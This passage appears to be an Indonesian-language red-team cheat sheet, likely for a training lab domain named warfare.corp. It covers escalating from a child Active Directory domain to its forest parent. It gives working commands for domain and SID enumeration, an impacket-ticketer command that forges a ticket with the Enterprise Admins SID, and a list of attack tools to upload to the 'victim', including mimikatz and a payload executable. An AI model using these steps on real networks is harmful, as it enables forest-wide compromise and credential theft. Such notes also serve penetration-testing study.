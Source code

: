 ```powershell
Get-ADDomainController -Server child.warfare.corp
Get-ADForest
```

3. Dapatkan SID parent/child:

```powershell
Get-DomainSID -Domain child.warfare.corp
Get-DomainSID -Domain warfare.corp
```

4. Gunakan ticketer.py:

```bash
impacket-ticketer -aesKey <AESKEY> -domain child.warfare.corp -domain-sid <CHILD_SID> -extra-sid <PARENT_SID>-519 Administrator
```

---

### Tools yang Wajib Upload:

* `agent`
* `payload.exe`
* `mimikatz.exe`
* `PowerView.ps1`

Import PowerView di powershell victim:

```powershell
Import-Module .\PowerView.ps1
```


